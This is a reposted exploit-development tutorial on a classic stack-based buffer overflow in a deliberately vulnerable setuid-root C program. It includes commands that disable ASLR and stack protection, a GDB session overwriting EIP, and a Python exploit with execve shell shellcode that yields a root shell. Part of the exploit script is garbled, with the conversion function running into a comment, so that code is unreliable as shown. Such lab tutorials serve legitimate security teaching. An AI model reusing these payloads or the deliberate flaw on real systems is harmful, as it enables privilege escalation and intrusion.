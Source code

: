 # Reference

[//]: <> (文章所涉及到的技术点的链接)

https://sploitfun.wordpress.com/2015/05/08/classic-stack-based-buffer-overflow/

<!--MD5(Classic Stack Based Buffer Overflow) = 	6fc7c7bb63994ad04f29ad45c03bba1f-->

# Title

[//]: <> (题目)

Classic Stack Based Buffer Overflow

# Content

[//]: <> (内容)

VM Setup: Ubuntu 12.04 (x86)

This post is the most simplest of the exploit development tutorial series and in the internet you can already find many articles about it. Despite its abundance and familiarity, I prefer to write my own blog post for it, since it would serve as a prerequisite for many of my future posts!!

## What is Buffer Overflow?

Copying source buffer into destination buffer could result in overflow when
1. Source string length is greater than destination string length.
2. No size check is performed.

There are two types of buffer overflow:

1. Stack Based Buffer Overflow – Here the destination buffer resides in stack
2. Heap Based Buffer Overflow – Here the destination buffer resides in heap

Here in this post, I will talk only about stack based buffer overflow. Heap overflows will be discussed in ‘Level 3’ of [Linux (x86) Exploit Development Tutorial Series!!](https://sploitfun.wordpress.com/2015/06/26/linux-x86-exploit-development-tutorial-series/)

Buffer overflow bugs lead to arbitrary code execution!!

## What is arbitrary code execution?

Arbitrary code execution allows attacker to execute his code inorder to gain control of the victim machine. Gaining control of victim machine is achieved using many ways like spawning a root shell, adding a new user, opening a network port etc…

Sounds interesting, enough of definitions lets look into a buffer overflow vulnerable code!!

Vulnerable Code:
```C
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
}
```

Compilation Commands:
```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

Line [2] of the above vulnerable program shows us that a buffer overflow bug exists. And this bug could lead to arbitrary code execution since source buffer contents are user provided input!!

## How arbitrary code execution is achieved?

Arbitrary code execution is achieved using a technique called “```Return Address Overwrite```“. This technique helps the attacker to overwrite the ‘return address’ located in stack and this overwrite would lead to arbitrary code execution.

Before looking into the exploit code, for better understanding, lets disassemble and draw the stack layout for vulnerable code!!

```
(gdb) disassemble main
Dump of assembler code for function main:
   //Function Prologue
   0x08048414 <+0>:	push   %ebp                      //backup caller's ebp
   0x08048415 <+1>:	mov    %esp,%ebp                 //set callee's ebp to esp

   0x08048417 <+3>:	and    $0xfffffff0,%esp          //stack alignment
   0x0804841a <+6>:	sub    $0x110,%esp               //stack space for local variables
   0x08048420 <+12>:	mov    0xc(%ebp),%eax            //eax = argv
   0x08048423 <+15>:	add    $0x4,%eax                 //eax = &argv[1]
   0x08048426 <+18>:	mov    (%eax),%eax               //eax = argv[1]
   0x08048428 <+20>:	mov    %eax,0x4(%esp)            //strcpy arg2 
   0x0804842c <+24>:	lea    0x10(%esp),%eax           //eax = 'buf' 
   0x08048430 <+28>:	mov    %eax,(%esp)               //strcpy arg1
   0x08048433 <+31>:	call   0x8048330 <strcpy@plt>    //call strcpy
   0x08048438 <+36>:	mov    $0x8048530,%eax           //eax = format str "Input:%s\n"
   0x0804843d <+41>:	lea    0x10(%esp),%edx           //edx = buf
   0x08048441 <+45>:	mov    %edx,0x4(%esp)            //printf arg2
   0x08048445 <+49>:	mov    %eax,(%esp)               //printf arg1
   0x08048448 <+52>:	call   0x8048320 <printf@plt>    //call printf
   0x0804844d <+57>:	mov    $0x0,%eax                 //return value 0

   //Function Epilogue
   0x08048452 <+62>:	leave                            //mov ebp, esp; pop ebp; 
   0x08048453 <+63>:	ret                              //return
End of assembler dump.
(gdb)
```

Stack Layout:

<div align=center><img src="Resource/6fc7c7bb63994ad04f29ad45c03bba1f_1.png"/></div>

As we already know user input of size greater than 256 would overflow the destination buffer and overwrite the return address stored in stack. Lets test it out by sending a series of “A”‘s .

## Test Step 1: Is Return Address Overwrite possible?
```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*300'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*300'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```
Above output shows that Instruction Pointer Register (EIP) is overwritten with “AAAA” and this confirms return address overwrite is possible!!

## Test Step 2: What is the offset from Destination Buffer?

Here lets find out at what offset return address is located from destination buffer ‘buf’. Having disassembled and drawn the stack layout for main(), lets now try to find offset location information!! Stack Layout shows that return address is located at offset (0x10c) from destination buffer ‘buf’. 0x10c is calculated as follows:
```
0x10c = 0x100 + 0x8 + 0x4
```
where
```
0x100 is ‘buf’ size
0x8 is alignment space
0x4 is caller’s EBP
```

Thus user input of form “A” * 268 + “B” * 4, overwrites ‘buf’, alignment space and caller’s EBP with “A”‘s and return address with “BBBB”.
```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*268 + "B"*4'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*268 + "B"*4'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

Above output shows that attacker gets control over return address. Return address located at stack location (0xbffff1fc) is overwritten with “BBBB”. With these informations, lets write an exploit program to achieve arbitrary code execution.

Exploit Code:
```
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call

#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       
              
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#endianess convertion
def conv(num):
 return struct.pack("<I",numnk + RA + NOP's + Shellcode
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode

print "Calling vulnerable program"
call(["./vuln", buf])
```

Executing above exploit program gives us root shell as shown below:
```
$ python exp.py 
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���

# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
NOTE: Inorder to get this root shell, we turned off many exploit mitigation techniques. Infact for all the posts in level 1, I have disabled these exploit mitigation techniques, since the objective of level 1, is to introduce you to vulnerabilities. And  real fun happens when we get to “Level 2” of [Linux (x86) Exploit Development Tutorial Series](https://sploitfun.wordpress.com/2015/06/26/linux-x86-exploit-development-tutorial-series/), where I will talk about bypassing these exploit mitigation techniques!!!
